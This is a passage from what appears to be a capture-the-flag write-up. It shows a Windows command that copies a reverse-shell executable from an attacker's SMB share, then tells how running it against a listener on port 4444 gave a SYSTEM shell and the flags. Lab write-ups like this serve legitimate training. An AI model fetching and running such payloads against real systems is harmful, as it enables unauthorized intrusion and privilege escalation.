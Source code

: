 ```cmd
copy \\10.10.14.9\tools\rev.exe 
```

I started a listener at port ```4444``` and after running the rev.exe above multiple times, I finally got a shell with System Privilege and then I grabbed the flag.

![Shell with system privileges](./images/rootshell.png)

## Flags

***User Flag***

![User Flag](./images/userflag.png)

***Root Flag***

![Root Flag](./images/rootflag.png)


That is all from this box. I have decided to 'Arctic' next.
